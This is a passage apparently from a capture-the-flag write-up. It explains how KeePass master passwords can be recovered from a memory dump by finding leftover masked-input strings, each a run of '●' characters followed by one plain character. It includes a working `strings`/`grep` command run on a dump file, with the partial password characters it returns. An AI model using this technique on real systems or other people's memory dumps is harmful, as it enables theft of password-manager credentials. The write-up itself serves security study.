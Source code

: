 #### Theory

The issue is not that the KeePass key is in memory. It’s that when the user types their password in, the strings that get displayed back end up in memory.

For example, let’s take the password “password”. The first character goes in as a “●” (which is `\u25cf` or `\xcf\x25` in memory). The next character comes, and it will show up as “●a”. Then the next character will be “●●s”, then “●●●s”, then “●●●●w”, and so on, until we get to “●●●●●●●d”.

The exploits look through memory for strings that start with some number of “●” and then one character, and build out the most likely master key.

### Recover Password

#### POC Manually

I can take a look at this manually using `strings` and `grep`. With `-e S`, strings will look for 8-bit characters, which will include what’s needed for the “●” (though it will show up as “%” in my terminal). Then I can `grep` for strings that start with two “●” to see potential matches for the keys being input:

```
oxdf@hacky$ strings -e S KeePassDumpFull.dmp | grep -a $(printf "%b" "\\xCF\\x25\\xCF\\x25")
%%
%%d
%%d
%%%
%%d
%%d
%%d
%%d
%%d
%%d
%%d
%%d
%%%g
%%%g
%%%%
%%%g
%%%g
%%%g
%%%g
%%%g
%%%g
%%%g
%%%g
%%%%r
%%%%r
%%%%%
%%%%r
%%%%r
%%%%r
%%%%r
%%%%r
%%%%r
%%%%r
%%%%r
%%%%%
%%%%%
%%%%%%
%%%%%
%%%%%
%%%%%
%%%%%
%%%%%
```
